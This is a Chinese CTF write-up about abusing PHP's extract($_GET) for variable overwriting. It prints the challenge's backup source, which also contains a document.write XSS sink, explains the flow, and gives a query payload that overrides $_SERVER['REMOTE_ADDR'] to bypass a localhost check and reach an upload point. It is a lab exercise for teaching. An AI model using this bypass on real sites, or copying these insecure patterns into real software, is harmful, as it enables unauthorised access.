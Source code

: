 ### extract() 变量覆盖

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68196bba58cb8da5c8de8893.png)

扫描目录发现有个 `index.php.bak`

```php+HTML
<?php 
error_reporting(0);
$token = $_COOKIE['token'] ?? null;

if($token){
    extract($_GET);
    $token = base64_decode($token);
    $token = json_decode($token, true);


    $username = $token['username'];
    $password = $token['password'];
    $isLocal = false;
    
    if($_SERVER['REMOTE_ADDR'] == "127.0.0.1"){
        $isLocal = true;
    }

    if($isLocal){
        echo 'Welcome Back，' . $username . '!';
        if(file_exists('upload/' . $username . '/' . $token['filename'])){
            echo '<br>';
            echo '<img src="upload/' . $username . '/' . $token['filename'] .'" width="200">';
        } else {
            echo '请上传您高贵的头像。';
            $html = <<<EOD
            <form method="post" action="upload.php" enctype="multipart/form-data">
                <input type="file" name="file" id="file">
                <input type="submit" value="Upload">
            </form>
            EOD;
            echo $html;
        }
    } else {
        // echo "留个言吧";
        $html = <<<EOD
        <h1>留言板</h1>
        <label for="input-text">Enter some text:</label>
        <input type="text" id="input-text" placeholder="Type here...">
        <button onclick="displayInput()">Display</button>
        EOD;
        echo $html;
    }
} else {
    $html = <<<EOD
<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h2>Login</h2>
    <form method="post" action="./login.php">
        <div>
            <label for="username">Username:</label>
            <input type="text" name="username" id="username" required>
        </div>
        <div>
            <label for="password">Password:</label>
            <input type="password" name="password" id="password" required>
        </div>
        <div>
            <input type="submit" value="Login">
        </div>
    </form>
</body>
</html>
EOD;
    echo $html;
}
?>

<script>
    function displayInput() {
      var inputText = document.getElementById("input-text").value;
      document.write(inputText)
    }
</script>
```

**主要功能流程：**

1. 获取 Cookie 中的 `token` 值

   ```php
   $token = $_COOKIE['token'] ?? null;
   ```

2. 解析 `token` 内容

   ```php
   $token = base64_decode($token);
   $token = json_decode($token, true);
   ```

3. 判断访问者是否为 `127.0.0.1`

   ```php
   if ($_SERVER['REMOTE_ADDR'] == "127.0.0.1")
   ```

4. 本地用户功能

   显示欢迎语；

   检查头像文件是否存在；

   若存在则展示头像；

   若不存在则提示上传表单（提交到 `upload.php`）

5. 远程用户功能：

   显示留言板（前端 HTML + JS 动态展示）

6. 未登录用户

   显示登录表单，提交至 `login.php`

**extract($_GET) 工作原理：**

```php
<?php
extract($_GET);
echo "Hello, $name!";
?>
```

请求：

```
http://example.com/index.php?name=Alice
```

结果：

```
Hello, Alice!
```

**变量污染攻击：**

```php
<?php
$token = "secure-token";
extract($_GET);
echo "Token is: $token";
?>
```

请求：

```
http://example.com/index.php?token=hacked
```

结果：

```
Token is: hacked
```

**`extract($GET);` 存在变量覆盖，可以利用这个把 `$SERVER['REMOTE_ADDR']` 覆盖成 `127.0.0.1`**

```
?_SERVER[REMOTE_ADDR]=127.0.0.1
```

首先登录

![](https://pic1.imgdb.cn/item/681acaf158cb8da5c8e1cc96.png)

然后污染找到文件上传点

![](https://pic1.imgdb.cn/item/681acb1658cb8da5c8e1ccf0.png)
